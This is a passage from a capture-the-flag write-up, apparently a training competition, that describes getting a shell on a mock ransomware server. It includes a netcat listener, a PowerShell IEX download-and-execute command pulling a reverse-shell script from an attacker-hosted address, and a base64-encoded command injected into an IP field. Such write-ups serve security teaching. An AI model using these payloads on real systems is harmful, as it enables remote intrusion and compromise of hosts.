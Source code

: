 From this we can guess that we should do the following:
1. Exfiltrate the Ransomware data from the server
2. Reverse-engineer the encryptor program
3. Decrypt the customer data files

#### Getting a Shell on the Ransomware Server:

To efficiently exfiltrate the ransomware files from the server we want to get a shell on the server.
Because we now that powershell is being used, we select a powershell reverse shell. I used this one: 
`https://gist.github.com/egre55/c058744a4240af6515eb32b2d33fbed3`

To get as shell on the server we need to upload this reverse shell script to the ransomware server and execute it.

To achieve this we do the following:

1) Use the python `http.server` module to start host the reverse shell, so the remote host can download it.

![/assets/images/cybersci/track2/49.png](/assets/images/cybersci/track2/49.png)

2) Start our listener for the reverse shell to connect to.
```
nc -nlvp 1234
```

3) Download and execute the reverse shell using the command injection vulnerability.

```
// iex cmdlet evaluates or runs a specified string as a command and returns the results of the expression or command, allowing for us to download and execute our payload in a single command.

IEX(New-Object Net.WebClient).downloadString('http://10.8.0.2:8000/ps1_rshll.ps1')

// Convert to base 64, and insert into the ip field:

localhost; powershell -encoded SQBFAFgAKABOAGUAdwAtAE8AYgBqAGUAYwB0ACAATgBlAHQALgBXAGUAYgBDAGwAaQBlAG4AdAApAC4AZABvAHcAbgBsAG8AYQBkAFMAdAByAGkAbgBnACgAJwBoAHQAdABwADoALwAvADEAMAAuADgALgAwAC4AMgA6ADgAMAAwADAALwBwAHMAMQBfAHIAcwBoAGwAbAAuAHAAcwAxACcAKQA=
```

We now have a shell on the ransomware server!

![/assets/images/cybersci/track2/34.png](/assets/images/cybersci/track2/34.png)
